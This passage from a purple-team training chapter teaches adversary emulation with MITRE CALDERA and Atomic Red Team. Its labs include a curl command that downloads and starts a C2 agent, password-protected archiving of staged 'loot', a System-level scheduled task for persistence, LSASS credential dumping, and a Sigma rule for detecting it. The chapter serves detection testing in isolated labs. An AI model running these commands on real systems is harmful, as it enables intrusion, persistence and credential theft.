- **Adversaries** (Navigate → *Adversaries*): built-in profiles like **Discovery**, **Hunter**, **Collection**, **Thief**, and **Nosy Neighbor**. You can also compose your own by dragging abilities into an ordered profile.
- **Planners:** the default `atomic` planner walks the adversary's abilities in order, running each one whose required facts are available; `batch` fires everything possible at once for a noisier test.

### Facts, fact sources, and how a chain flows

The mechanism that makes CALDERA *autonomous* rather than a glorified script runner is **facts**. A fact is a typed key-value pair with a dotted trait name — `host.user.name`, `remote.host.fqdn`, `file.sensitive.path`. Abilities declare, in their command, which facts they *consume* (via `#{trait}` placeholders) and, through their `parsers`, which facts they *produce* from their output.

The flow works like this: an ability that runs `whoami` parses its output into a `host.user.name` fact; a later "spray" or "enumerate group" ability whose command contains `#{host.user.name}` becomes *runnable* only once that fact exists. The planner keeps looping the adversary's abilities, and each pass more abilities become eligible as facts accumulate — which is exactly how a real intrusion unfolds (you can't move laterally until discovery has found a target).



A **fact source** seeds this: `basic` starts empty (everything is discovered live), but you can pre-load a fact source with known values — e.g. a `remote.host.fqdn` you already know — to focus an operation. This is how you scope a chained emulation to specific hosts instead of letting it wander.

### Automating operations via the REST API

Everything the UI does is backed by a REST API, which is how you make emulation *continuous* — a scheduled job that spins up an operation nightly and reports coverage without a human clicking anything.

```bash
# Kick off an operation programmatically
curl -s -X PUT http://192.168.56.10:8888/api/v2/operations \
  -H "KEY: ADMIN123" -H "Content-Type: application/json" \
  -d '{"name":"nightly-discovery","adversary":{"adversary_id":"<discovery-guid>"},
       "planner":{"id":"<atomic-planner-guid>"},"source":{"id":"<basic-source-guid>"},
       "group":"red","auto_close":true}'
```

- `KEY` — the operator API key from `conf/local.yml`.
- `auto_close: true` — the operation stops itself once no more abilities are runnable, which is what you want for an unattended nightly run.

**Blue team usage:** wiring this into CI (a nightly GitHub Action or cron job that starts the operation and diffs the coverage report against the last run) is what turns purple teaming from an annual event into a continuous regression test for your detections — the same idea as unit tests, but for your SIEM.

## Part 7: Lab 2 — A CALDERA Discovery + Collection Operation

Now chain techniques autonomously. Goal: run the built-in **Discovery** adversary against a Windows agent, watch the telemetry, then extend into **Collection**.

Step 1 — confirm the agent is checked in (UI → Agents shows `WIN10-LAB`, group `red`, trusted, last seen a few seconds ago).

Step 2 — create the operation. **Operations → Create Operation**:

- Name: `purple-discovery-01`
- Adversary: `Discovery`
- Group: `red`
- Planner: `atomic`
- Fact source: `basic`
- Autonomous: `on` (let it run without manual approval), or `manual` to approve each step for a controlled demo.

Step 3 — start it. CALDERA walks the Discovery abilities; each row in the operation view shows the ability, the command, the status, and the collected output. Realistic operation output rows:

```
[+] T1082 System Information Discovery      -> systeminfo                    (success)
[+] T1016 System Network Configuration Disc.-> ipconfig /all                 (success)
[+] T1033 System Owner/User Discovery       -> whoami                        (success)
[+] T1057 Process Discovery                 -> tasklist                      (success)
[+] T1049 System Network Connections Disc.  -> netstat -ano                  (success)
[+] T1518 Software Discovery                -> wmic product get name,version (success)
```

Each success stores facts (hostname, users, IPs) that later abilities and other adversary profiles can consume. **The purple step:** in the SIEM, hunt for the sequence of native discovery binaries (`systeminfo`, `ipconfig`, `whoami`, `tasklist`, `netstat`) all spawned by the same parent process (`splunkd.exe`) within seconds. Individually each is benign; the *cluster* under one odd parent is the detection opportunity, and a good Sigma rule for "discovery burst" should fire here.

Step 4 — chain into Collection. Add a **Collection** adversary run (or append its abilities) that uses the facts already gathered — e.g. "Find sensitive files" (T1083 File and Directory Discovery) and "Compress staged directory" (T1560.001 Archive Collected Data via 7-Zip). Example ability command CALDERA issues:

```cmd
7za.exe a -p"S3cret!" -y C:\Users\Public\staged.7z C:\Users\Public\loot\
```

**The purple step:** confirm the SIEM detects (a) mass file access under a user directory and (b) the creation of a password-protected archive — a very common ransomware/exfil precursor (T1560.001) and a high-value detection.

Step 5 — **run the operation's cleanup.** In the operation view, click **Cleanup** so CALDERA runs each ability's cleanup command (deleting staged files, the archive, dropped tools). Then stop the operation and download the report.

Step 6 — export the report. **Operations → download report (JSON)** gives you a per-ability record with command, output, timestamps, and ATT&CK IDs — the machine-readable scorecard you feed into your coverage tracking. From the CLI you can also pull it via the REST API:

```bash
curl -s -X POST http://192.168.56.10:8888/api/rest \
  -H "KEY: ADMIN123" \
  -d '{"index":"operation_report","name":"purple-discovery-01"}' | jq '.'
```

(`KEY` is the API key from `conf/local.yml`; `index: operation_report` requests the report object.)

## Part 8: Lab 3 — Writing a Custom Ability and a Custom Atomic

Emulating a *specific* actor eventually means the built-in content doesn't cover a procedure, so you author your own. This teaches the YAML/format both tools use.

### A custom CALDERA ability

Abilities are YAML files under a plugin's `data/abilities/<tactic>/` folder (or added through the UI). Here is a discovery ability that lists domain admins via `net group`:

```yaml
- id: 8d1f7e60-2b3c-4a5d-9e11-abc123def456
  name: Enumerate Domain Admins
  description: Lists members of the Domain Admins group
  tactic: discovery
  technique:
    attack_id: T1069.002
    name: "Permission Groups Discovery: Domain Groups"
  platforms:
    windows:
      psh:
        command: |
          net group "Domain Admins" /domain
        parsers:
          plugins.stockpile.app.parsers.basic:
            - source: host.user.name
              edge: has_property
```

Field-by-field:

- `id` — a unique GUID for the ability.
- `tactic` / `technique.attack_id` — the ATT&CK mapping, so results land on the right Navigator cell.
- `platforms.windows.psh.command` — the executor (`psh` = PowerShell) and the command to run.
- `parsers` — how to turn command output into facts (here, parse discovered usernames into `host.user.name` facts that downstream abilities can target).

Drop the file in `plugins/stockpile/data/abilities/discovery/`, restart the server (or reload via the UI), and the ability is now selectable in any adversary profile.

### A custom Atomic test

Atomic tests are equally simple YAML. Here is a minimal T1053.005 (Scheduled Task) test with an override-able task name and a cleanup:

```yaml
attack_technique: T1053.005
display_name: "Scheduled Task/Job: Scheduled Task"
atomic_tests:
  - name: Create a scheduled task for persistence (purple lab)
    description: Creates a scheduled task that runs a benign command.
    supported_platforms:
      - windows
    input_arguments:
      task_name:
        description: Name of the scheduled task
        type: string
        default: PurpleExerciseTask
    executor:
      name: command_prompt
      elevation_required: true
      command: |
        schtasks /create /tn "#{task_name}" /tr "cmd.exe /c calc.exe" /sc onlogon /ru System
      cleanup_command: |
        schtasks /delete /tn "#{task_name}" /f >nul 2>&1
```

`#{task_name}` is the templated input argument substituted at runtime. Save under `atomics/T1053.005/`, then run it exactly like any built-in test:

```powershell
Invoke-AtomicTest T1053.005 -TestNumbers 1 -InputArgs @{ "task_name"="PurpleExerciseTask" }
```

**Blue team usage:** firing this and confirming **Windows Event ID 4698 (a scheduled task was created)** appears — and that your SIEM alerts on task creation running as `System` with an unusual trigger — validates a persistence detection you would otherwise only assume works. **CTF angle:** scheduled-task and cron persistence is a recurring theme on HackTheBox/TryHackMe Windows and Linux boxes; authoring atomics for these techniques builds exactly the muscle memory those rooms test.

## Part 9: The Detect–Execute–Tune Loop with Sigma and ATT&CK Navigator

Emulation only creates value when its results drive detection changes. The loop is: **execute a technique → check telemetry → if not detected, write/tune a detection → re-execute → confirm → record.** This is the operational heart of purple teaming from Chapter 1, now made concrete.



**Writing a Sigma rule from an emulation result.** Suppose Lab 1 showed LSASS access was logged (Sysmon EID 10) but *not alerted*. You author a Sigma rule so it will alert next time:

```yaml
title: LSASS Memory Access via ProcDump
id: 3f9b2c1a-1234-4d6e-8a90-abcdef012345
status: experimental
description: Detects process access to lsass.exe with high granted access, typical of credential dumping
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 10
    TargetImage|endswith: '\lsass.exe'
    GrantedAccess: '0x1FFFFF'
  filter:
    SourceImage|endswith:
      - '\wininit.exe'
      - '\csrss.exe'
  condition: selection and not filter
level: high
tags:
  - attack.credential_access
  - attack.t1003.001
```

The `tags` field carries the ATT&CK ID, which is what lets tooling roll the rule up onto the Navigator layer. Convert Sigma to your SIEM's query language with `sigma` (the pySigma CLI):

```bash
# Convert a Sigma rule to a Splunk search
sigma convert -t splunk -p sysmon lsass_procdump.yml
```

Realistic output:

```
EventID=10 TargetImage="*\\lsass.exe" GrantedAccess="0x1FFFFF"
  NOT (SourceImage IN ("*\\wininit.exe","*\\csrss.exe"))
```

Deploy that search as a scheduled/real-time Splunk alert, **re-run the exact same Atomic test**, and confirm the alert now fires:

```powershell
# Re-fire the identical procedure, logging the new timestamp
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ExecutionLogPath C:\atomic-logs\lsass-retest.csv
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup
```

Realistic Splunk alert firing on the re-test:

```
alert: LSASS Memory Access via ProcDump
  _time              = 14:41:09
  host               = WIN10-LAB
  EventID            = 10
  SourceImage        = C:\AtomicRedTeam\ExternalPayloads\procdump.exe
  TargetImage        = C:\Windows\system32\lsass.exe
  GrantedAccess      = 0x1FFFFF
  result             = 1 event(s)  ->  triggered
```

The technique that was `logged-only` (score 1) on the first run is now `alerted` (score ≥2) on the re-test, and you have the two timestamps needed to compute MTTD. **Only after this confirmation** do you mark the technique green on Navigator. Firing once, writing a rule, and *assuming* it works is the single most common way purple exercises produce false confidence — the re-test is not optional.

**Tracking coverage on ATT&CK Navigator.** Navigator is a web app for annotating the ATT&CK matrix with coloured layers. Build a layer JSON where each tested technique gets a score/colour:

```json
{
  "name": "Purple Exercise Coverage",
  "domain": "enterprise-attack",
  "techniques": [
    { "techniqueID": "T1003.001", "score": 100, "color": "#2ecc71", "comment": "Atomic #1, detected, Sigma deployed" },
    { "techniqueID": "T1053.005", "score": 100, "color": "#2ecc71", "comment": "EID 4698 alert works" },
    { "techniqueID": "T1560.001", "score": 50,  "color": "#f1c40f", "comment": "Logged only, no alert yet" },
    { "techniqueID": "T1048",     "score": 0,   "color": "#e74c3c", "comment": "Not logged - gap" }
  ]
}
```

Import that layer into Navigator and you have the single artifact executives and engineers both understand: a heatmap of exactly what you can and cannot see, backed by evidence from real technique execution rather than vendor claims.

## Part 10: Coverage Scoring and Metrics

To make results comparable across exercises, score every technique on a fixed scale. A common three-state model, extendable to five:

| Score | State | Meaning |
| --- | --- | --- |
| 0 | **Not logged** | No telemetry captured the technique at all — a blind spot |
| 1 | **Logged, not alerted** | Event exists in the SIEM but no rule fired — a tuning gap |
| 2 | **Alerted** | A detection fired but may be noisy or slow |
| 3 | **Detected & actioned** | Precise alert reached an analyst and was actionable |

Aggregate metrics that turn rows into a program-level number:

- **Detection coverage %** = techniques scoring ≥2 ÷ techniques tested. Report per-tactic, not just overall — "we cover 80% of Discovery but 20% of Credential Access" is far more actionable than a single blended number.
- **Mean Time To Detect (MTTD)** = average time between technique execution (from your Atomic `ExecutionLogPath` / CALDERA operation timestamp) and the alert. Emulation is the *only* clean way to measure MTTD because you know the exact execution time.
- **Logging-only rate** = fraction scoring exactly 1 — pure tuning backlog you can burn down quickly without new log sources.
- **Regression count** = techniques that were green in a prior exercise and are now red — usually caused by a log-source outage, an EDR policy change, or a rule someone disabled. Catching regressions is one of the strongest arguments for *continuous* emulation.

**Blue team usage:** these metrics are the deliverable that justifies detection-engineering headcount and log-ingest budget. "Our Credential Access coverage went from 20% to 75% over the quarter, verified by emulation" is a defensible, evidence-backed statement in a way that "we bought a better EDR" never is.

## Part 11: Operational Safety, Scope, and Cleanup

Adversary emulation runs *real* attacker behaviour, so safety discipline is non-negotiable and is part of the tradecraft, not an afterthought.

- **Authorization first, always.** A signed scope defining which hosts, which techniques, which time window, and who is informed. Some techniques (ransomware-style encryption, destructive impact T1485/T1486, credential dumping on production identity servers) should be *excluded* or run only in an isolated lab clone, never on live production.
- **Snapshots and rollback.** Run first in disposable VMs with a clean snapshot. Many tests create persistence, drop files, or modify the registry; a snapshot is your guaranteed undo even if a `cleanup_command` fails.
- **Cleanup is mandatory.** Use `-Cleanup` for every Atomic test and the operation **Cleanup** in CALDERA. Then *verify* — list scheduled tasks, check the temp folder, confirm dropped agents are gone. A dangling Sandcat agent named `splunkd.exe` or a leftover `PurpleExerciseTask` is both a real security risk and an embarrassment on the next real IR.
- **Deconflict with the SOC.** In a transparent purple exercise the SOC knows the window, but they should still be able to *distinguish* your activity — hence deterministic artefact names (`PurpleExerciseTask`), a known source host, and your shared execution log. This prevents wasting IR effort on your own tests while still validating that the detection *would* have fired for a real adversary.
- **Beware credential material.** LSASS dumps, SAM exports, and `ntds.dit` copies contain real credentials. Treat any artefact a test produces as sensitive: store it encrypted if you must keep it, and shred it as part of cleanup. Preferably run these only in a lab with throwaway accounts.
- **Network isolation for C2.** Keep the CALDERA server and its agents inside an isolated lab segment. `--insecure` mode and default credentials mean an exposed CALDERA server is itself a trivially-ownable C2 — never bind it to a routable interface.

| Risk | Control |
| --- | --- |
| Test leaves persistence behind | Snapshot + run `-Cleanup` + manually verify |
| Real credentials captured in a dump | Lab-only, throwaway accounts, encrypt/shred artefacts |
| Emulation mistaken for a real breach | Deconflict window + deterministic names + shared exec log |
| CALDERA server compromised/abused | Isolated segment, change default creds, never expose |
| Destructive technique run in prod | Exclude from scope; lab clone only |

## Part 12: Choosing the Right Tool and Combining Them

Atomic Red Team and CALDERA are complementary, not competitors. Pick by what question you are answering.

| Dimension | Atomic Red Team | CALDERA |
| --- | --- | --- |
| Granularity | Single technique, isolated | Chained, multi-technique operations |
| Autonomy | Manual, one command per test | Autonomous agent + planner |
| Best for | Pinning down one detection precisely | Testing detections under realistic chains |
| Footprint on target | PowerShell module, no persistent agent | Persistent Sandcat agent (a C2) |
| Attribution of telemetry | Perfectly clean (one behaviour) | Requires timeline reconstruction |
| Learning curve | Low | Moderate |
| Extensibility | Author YAML tests | Author YAML abilities + adversaries + plugins |
| Reporting | CSV exec log | JSON operation report + REST API |

A typical mature workflow uses **Atomic to establish baseline per-technique coverage** (fast, clean, unambiguous), then **CALDERA to validate that coverage still holds when techniques are chained** with realistic timing and an autonomous planner — because a detection that fires on an isolated LSASS dump may drown in noise when it happens mid-chain amid twenty other events. Other tools you'll meet in this space and where they fit: **VECTR** (tracking and visualising purple results over time — the scorecard database), **Prelude Operator** (a polished CALDERA-derived operator UI), **Atomic Red Team's own runner in CI** (continuous emulation on a schedule), and **commercial BAS** platforms (AttackIQ, SafeBreach, Cymulate) that package the same detect-execute-tune loop with managed content.



## Part 13: Detection & Defense Angle

Although this entire chapter is *about* improving detection, it is worth consolidating how a defender detects the emulation tooling itself — because attackers use these exact tools too, and because a purple exercise should also confirm you can spot the emulation infrastructure.

- **Detecting Sandcat / CALDERA agents:** the agent beacons to an HTTP(S) endpoint at a regular interval and often lives under an odd path with a masquerading name (`splunkd.exe` in `C:\Users\Public`). Detection opportunities: periodic beaconing to a single URI (network), a process making regular outbound `POST /beacon` requests, and unsigned binaries in user-writable directories. The Sandcat default beacon and the `/file/download` fetch of the agent are both signaturable.
- **Detecting Atomic execution:** Atomic runs procedures through `powershell.exe`/`cmd.exe` with recognisable command lines (e.g. `procdump -ma lsass.exe`). PowerShell **Script Block Logging (Event ID 4104)** and **process-creation logging (Event ID 4688 / Sysmon EID 1)** with command-line capture are the primary sources. Because Atomic doesn't hide, this is a good test of whether your command-line logging is even turned on.
- **The meta-detection:** in a transparent exercise you *want* the tooling to be visible so you can measure. But you should also run a version where the blue team is *not* pre-told the exact commands, to test whether generic behaviour-based detections (LSASS access, discovery bursts, task creation, archive-then-exfil) fire without foreknowledge — that is the closer approximation of a real adversary and the sterner test of your coverage.
- **Log sources that matter most** for the techniques in this chapter: Sysmon (EID 1 process create, EID 3 network, EID 10 process access, EID 11 file create), Windows Security (4688 process create, 4698 task create, 4624/4625 logons), PowerShell operational (4103/4104), and EDR process/telemetry. If a purple exercise repeatedly shows "not logged," the fix is usually a **log-source or Sysmon-config problem**, not a rule problem — emulation is very good at surfacing that distinction.

## Part 14: Common Pitfalls

- **Skipping cleanup.** The single most common mistake. Un-cleaned scheduled tasks, dropped agents, and LSASS dumps accumulate and pollute the environment. Always `-Cleanup` and verify.
- **Running as the wrong privilege.** Many tests (`elevation_required: true`) silently no-op or error if not run elevated. If a test "did nothing," check whether it needed Administrator/root.
- **Testing without validating.** Firing techniques and never checking the SIEM produces zero coverage data — it is just noise. The purple value is entirely in the *observe* step.
- **Attributing chained telemetry wrong.** In CALDERA operations, twenty abilities fire in seconds; without the operation timestamps you can misattribute an alert to the wrong technique. Keep the operation report open beside the SIEM.
- **Assuming "no alert" means "undetectable."** Often it means the log source was off, the Sysmon config excluded the event, or the rule was disabled. Distinguish *not logged* from *logged-but-not-alerted* — they have completely different fixes.
- **Exposing CALDERA.** Running `--insecure` with default creds on a reachable interface turns your emulation server into a real, exploitable C2. Keep it isolated.
- **Treating a green result as permanent.** Coverage regresses. A rule that worked last quarter can be silently broken by a pipeline change. Re-test on a cadence.
- **Over-emulating irrelevant actors.** Emulating techniques no realistic threat to your org uses wastes effort. Let CTI drive the plan (Part 3).

## Part 15: Final Revision / Summary

- **Adversary emulation** is the disciplined execution of specific, ATT&CK-catalogued adversary TTPs to measure and improve detection — the engine that drives the purple loop from Chapter 1. It is technique-driven and transparent, not objective-driven or covert.
- **Everything is indexed by MITRE ATT&CK** — tactic → technique → sub-technique → procedure. That shared vocabulary lets Atomic results, CALDERA results, and Sigma rules all land on one ATT&CK Navigator coverage heatmap.
- **The plan comes from intelligence:** pick a relevant actor, extract TTPs, prioritise for safety and value, map each to a procedure (an Atomic test or CALDERA ability), and order them.
- **Atomic Red Team** is the scalpel: `Invoke-AtomicTest T1003.001 -ShowDetailsBrief / -CheckPrereqs / -GetPrereqs / <run> / -Cleanup`. One technique, perfectly attributable telemetry, CSV exec logs for correlation.
- **CALDERA** is the orchestrator: a server, a **Sandcat** agent on the target, **abilities** (single actions), **adversaries** (ordered profiles), **operations** (runs), and **planners** (`atomic`/`batch`) that chain techniques autonomously via **facts**.
- **The detect–execute–tune loop** is the whole point: fire → observe telemetry → if a gap, write/tune a Sigma rule → re-fire → confirm → score. Track results on Navigator and score coverage (not-logged / logged-only / alerted / actioned), measuring MTTD and regressions over time.
- **Safety is tradecraft:** authorization, snapshots, mandatory verified cleanup, SOC deconfliction, isolation of the CALDERA C2, and careful handling of any credential material a test produces.
- **Use both tools together:** Atomic to baseline individual detections cleanly, CALDERA to prove they survive realistic chaining, VECTR/Navigator to track coverage over time.

## Part 16: Cheat Sheet / Quick Reference

**Atomic Red Team**

```powershell
# Load module
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force

Invoke-AtomicTest T1003.001 -ShowDetailsBrief          # list tests for a technique
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ShowDetails # full command + cleanup
Invoke-AtomicTest T1003.001 -TestNumbers 1 -CheckPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs  # fetch dependencies
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ExecutionLogPath C:\logs\run.csv
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup
Invoke-AtomicTest T1053.005 -TestNumbers 1 -InputArgs @{ "task_name"="PurpleTask" }
```

**CALDERA**

```bash
# Server
git clone https://github.com/mitre/caldera.git --recursive
cd caldera && pip install -r requirements.txt
python3 server.py --insecure --build          # UI at :8888, red/admin

# Deploy Sandcat (Linux target)
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" \
  http://SERVER:8888/file/download > /tmp/sc; chmod +x /tmp/sc
/tmp/sc -server http://SERVER:8888 -group red -v &

# Pull operation report via REST
curl -s -X POST http://SERVER:8888/api/rest -H "KEY: ADMIN123" \
  -d '{"index":"operation_report","name":"OP_NAME"}' | jq .
```

**Sigma**

```bash
sigma convert -t splunk -p sysmon rule.yml     # convert a rule to Splunk
```

**Key ATT&CK IDs seen this chapter**

| ID | Technique |
| --- | --- |
| T1003.001 | OS Credential Dumping: LSASS Memory |
| T1053.005 | Scheduled Task |
| T1082 | System Information Discovery |
| T1057 | Process Discovery |
| T1069.002 | Permission Groups Discovery: Domain Groups |
| T1560.001 | Archive Collected Data via Utility |
| T1048 | Exfiltration Over Alternative Protocol |

**Key detection events**

| Source | Event | Catches |
| --- | --- | --- |
| Sysmon | EID 10 (ProcessAccess) | LSASS access / credential dumping |
| Sysmon | EID 1 / Security 4688 | Process creation + command line |
| Security | 4698 | Scheduled task created |
| PowerShell | 4104 | Script block content |
| Sysmon | EID 3 | Network connection (agent beacon) |

## Part 17: Practice Labs & Resources

- **Atomic Red Team on your own VM:** install `Invoke-AtomicRedTeam` in a snapshotted Windows VM with Sysmon (SwiftOnSecurity or Olaf Hartong `sysmon-modular` config) and work through the Credential Access (T1003.x), Discovery (T1082/T1057/T1016), and Persistence (T1053.005, T1547.001) tests, validating each in the Sysmon log — exactly the loop in Labs 1 and 8.
- **MITRE CALDERA training range:** stand up the CALDERA server and a Windows + Linux agent in an isolated lab, and run the built-in **Discovery**, **Hunter**, and **Collection** adversaries, then compose a custom adversary from stockpile abilities. MITRE's CALDERA docs and the "Getting Started" plugin walk through this.
- **DetectionLab / Splunk Attack Range:** these pre-built labs (Windows domain + Sysmon + Splunk) are purpose-made for firing Atomic/CALDERA techniques and immediately querying the resulting telemetry — ideal for practising the detect–execute–tune loop end to end.
- **MITRE Adversary Emulation Library / CTID plans:** work through a published emulation plan (FIN6, APT29, menuPass, Carbanak+FIN7) and reproduce its TTPs with Atomic tests and CALDERA abilities — the most realistic way to practise intelligence-driven emulation from Part 3.
- **TryHackMe — "Atomic Red Team", "MITRE", "Aurora EDR", "Investigating with Splunk" rooms** and **HackTheBox Sherlocks / Blue-team labs:** these give guided practice pairing technique execution with detection, reinforcing the purple mindset.
- **VECTR (community edition):** deploy it and log a small purple exercise's results to practise tracking coverage, MTTD, and regressions over multiple runs, building the scorecard that Parts 9–10 produce.
- **ATT&CK Navigator:** build a coverage layer from your own emulation results — colour each tested technique by score — and keep it as the living artifact of your program's detection coverage.

In the next chapter we take the output of this emulation work — the gaps and the scorecards — and go deep on **detection validation and closing coverage gaps**: turning "not logged" and "logged-only" results into deployed, tuned, regression-tested detections.
